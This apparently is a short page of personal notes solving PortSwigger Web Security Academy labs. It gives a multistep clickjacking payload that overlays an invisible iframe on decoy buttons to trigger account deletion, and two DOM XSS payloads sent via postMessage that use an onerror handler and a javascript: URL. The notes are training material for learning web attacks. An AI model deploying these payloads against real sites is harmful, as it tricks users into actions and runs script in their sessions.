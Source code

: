 **Multistep clickjacking**
    
    delete account -> make sure yes
```html
<style>
    iframe {
   	 position:relative;
   	 width:500px;
   	 height: 700px;
   	 opacity: 0.0001;
   	 z-index: 2;
    }
   .firstClick, .secondClick {
   	 position:absolute;
   	 top:500px;
   	 left:75px;
   	 z-index: 1;
    }
   .secondClick {
   	 top:285px;
   	 left:225px;
    }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0ac500e1035994f480a64e93006e00b7.web-security-academy.net/my-account"></iframe>
```
----
----

# Dom Vuln

**DOM XSS using web messages**
    
    print()
    window.addEventListener('message', function(e){...
        document.getElementById('ads').innerHTML=e.data;
    })
```html
<iframe src="https://0a8500e904e7f8c88088a39700fb0065.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
---

**DOM XSS using web messages and a JavaScript URL**
    
    print()
    window.addEventListener('message', function(e){...
        var url = e.data;
        if (url.indexOf('http:') > -1) || url ...
        location.href = url;
    })
```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
---
